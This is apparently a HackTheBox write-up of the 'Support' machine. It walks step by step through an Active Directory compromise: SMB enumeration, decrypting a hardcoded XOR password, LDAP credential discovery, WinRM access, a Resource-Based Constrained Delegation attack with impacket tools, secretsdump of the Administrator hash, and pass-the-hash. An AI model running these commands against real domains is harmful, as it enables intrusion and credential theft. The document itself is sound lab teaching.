





# HTB Support — Writeup


---

## Overview

**Support** is an Easy-rated Windows Active Directory machine on HackTheBox. The attack chain involves SMB enumeration to retrieve a .NET binary, static analysis via ILSpy to recover an XOR-encrypted LDAP credential, LDAP enumeration to find a cleartext password stored in a user's `info` attribute, and finally privilege escalation via a `GenericAll` ACE on the Domain Controller computer object — exploited through a Resource-Based Constrained Delegation (RBCD) attack to achieve Domain Admin.

| Detail | Value |
|---|---|
| Machine Name | Support |
| IP Address | `10.129.11.223` |
| Domain | `support.htb` |
| DC Hostname | `dc.support.htb` |
| OS | Windows Server (Active Directory) |
| Difficulty | Easy |

---

## Table of Contents

1. [Reconnaissance](#1-reconnaissance)
2. [SMB Enumeration](#2-smb-enumeration)
3. [Binary Analysis — UserInfo.exe](#3-binary-analysis--userinfoexe)
4. [Password Decryption](#4-password-decryption)
5. [LDAP Enumeration](#5-ldap-enumeration)
6. [Foothold — WinRM as support](#6-foothold--winrm-as-support)
7. [Privilege Escalation — RBCD Attack](#7-privilege-escalation--rbcd-attack)
8. [Domain Admin & Flags](#8-domain-admin--flags)

---

## 1. Reconnaissance

### Port Scan

```
sudo nmap -sC -sV -oA nmap/support 10.129.11.223 -T4
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0
```

The open port profile is immediately recognisable as a Windows Domain Controller:
- **88** — Kerberos
- **389/3268** — LDAP / Global Catalog
- **445** — SMB
- **5985** — WinRM (HTTP)

Add the domain to `/etc/hosts`:

```bash
echo "10.129.11.223 dc.support.htb support.htb" | sudo tee -a /etc/hosts
```

---

## 2. SMB Enumeration

List shares anonymously:

```bash
nxc smb 10.129.11.223 -u '' -p '' --shares
```

A non-default share named `support-tools` is accessible without credentials. List its contents:

```bash
smbclient //10.129.11.223/support-tools -N
```



Among several legitimate tools (Wireshark, Sysinternals, PuTTY, Npp), there is a suspicious file: `UserInfo.exe.zip`. Download it:

```bash
smb: \> get UserInfo.exe.zip
```

---

## 3. Binary Analysis — UserInfo.exe
We need to unzip the zip file.
```bash
unzip UserInfo.exe.zip
```

`UserInfo.exe` is a .NET binary. Load it into **AvaloniaILSpy** (or `ilspycmd`) for static analysis.

Navigating the decompiled source reveals a class named `Protected` containing hardcoded encryption logic:




This is a simple XOR cipher: Base64 decode → XOR with key `armando` → XOR with `0xDF`.

The `LdapQuery` class reveals how the credential is used — it calls `Protected.getPassword()` 
and passes the result directly into a `DirectoryEntry` constructor connecting to `LDAP://support.htb`:



This confirms the binary authenticates to LDAP as `support\\ldap` using the hardcoded encrypted password.

---

## 4. Password Decryption

Replicate the decryption in Python:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

data = base64.b64decode(enc_password)
result = bytes([(b ^ key[i % len(key)]) ^ 0xDF for i, b in enumerate(data)])
print(result.decode())
```

This yields the LDAP service account password. The binary uses these credentials to query LDAP for user information.

---

## 5. LDAP Enumeration

Query LDAP using the recovered credentials (username: `ldap`):

```bash
ldapsearch -x -H ldap://10.129.11.223 \
  -D "support\ldap" \
  -w '<ldap-password>' \
  -b "DC=support,DC=htb" \
  "(sAMAccountName=support)" \
  info
```



The `support` user has a cleartext password stored in the non-standard `info` attribute:

```
info: Ironside47pleasure40Watchful
```

The `info` (or `comment`) field in AD is a freetext attribute with no access controls on its contents — a common misconfiguration where administrators store credentials for convenience.

---

## 6. Foothold — WinRM as support

Port 5985 (WinRM) is open. The `support` user is a member of the **Remote Management Users** group, allowing PowerShell remoting:

```bash
evil-winrm -i 10.129.11.223 -u support -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Documents>
```

Retrieve the user flag:

```powershell
type C:\Users\support\Desktop\user.txt
```

---

## 7. Privilege Escalation — RBCD Attack

### BloodHound Enumeration

Collect AD data with bloodhound-python:

```bash
bloodhound-python -u support \
  -p 'Ironside47pleasure40Watchful' \
  -d support.htb \
  -ns 10.129.11.223 \
  -c all
```

Upload the resulting JSON files to BloodHound CE and query the shortest path from `SUPPORT@SUPPORT.HTB` to Domain Admins.



### Attack Path Analysis

```
SUPPORT → MemberOf → SHARED SUPPORT ACCOUNTS
SHARED SUPPORT ACCOUNTS → GenericAll → DC.SUPPORT.HTB
DC.SUPPORT.HTB → CoerceToTGT → SUPPORT.HTB (Domain)
```

The `SHARED SUPPORT ACCOUNTS` group has **`GenericAll`** on the Domain Controller computer object (`DC$`). This is the classic setup for a **Resource-Based Constrained Delegation (RBCD)** attack.

### RBCD Attack

**Prerequisites:**
- `GenericAll` on a computer object (DC$)
- Ability to create machine accounts (`ms-DS-MachineAccountQuota` defaults to 10)

**Step 1 — Create a fake machine account:**

```bash

addcomputer.py support.htb/support:'Ironside47pleasure40Watchful' \
  -computer-name 'FAKE$' \
  -computer-pass 'Password123!' \
  -dc-ip 10.129.11.223
```

**Step 2 — Configure RBCD — allow FAKE$ to delegate to DC$:**

```bash
rbcd.py support.htb/support:'Ironside47pleasure40Watchful' \
  -delegate-from 'FAKE$' \
  -delegate-to 'DC$' \
  -action write \
  -dc-ip 10.129.11.223
```

**Step 3 — Request a service ticket impersonating Administrator:**

```bash
getST.py support.htb/FAKE$:'Password123!' \
  -spn cifs/dc.support.htb \
  -impersonate Administrator \
  -dc-ip 10.129.11.223
```

**Step 4 — Export the ticket and dump hashes:**

```bash
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

secretsdump.py -k -no-pass dc.support.htb \
  -dc-ip 10.129.11.223 \
  -just-dc-user Administrator
```

Output:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<nt-hash>:::
```
---

## 8. Domain Admin & Flags

Use the Administrator NT hash for Pass-the-Hash via Evil-WinRM:

```bash
evil-winrm -i 10.129.11.223 -u Administrator -H <administrator-nt-hash>
```

Alternatively, use wmiexec with the Kerberos ticket:

```bash
wmiexec.py -k -no-pass Administrator@dc.support.htb -dc-ip 10.129.11.223
```

Retrieve the root flag:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```
---

## Attack Chain Summary

```
SMB anonymous read (support-tools)
  └─► UserInfo.exe download
        └─► ILSpy decompilation → XOR decryption → ldap credentials
              └─► LDAP enumeration → support user password in info field
                    └─► Evil-WinRM → user flag
                          └─► BloodHound → GenericAll on DC$ (via SHARED SUPPORT ACCOUNTS)
                                └─► RBCD attack (addcomputer → rbcd → getST)
                                      └─► secretsdump → Administrator NTLM hash
                                            └─► Pass-the-Hash → root flag
```

---

## Key Takeaways

| Finding | Impact |
|---|---|
| Credentials hardcoded in .NET binary (XOR obfuscated) | LDAP access |
| Cleartext password in LDAP `info` attribute | Domain user shell |
| `GenericAll` ACE on DC computer object | Full domain compromise |
| Default `ms-DS-MachineAccountQuota = 10` | RBCD attack feasible without admin |

---

*Writeup by Rajdeep Sarkar — HackTheBox retired machine*
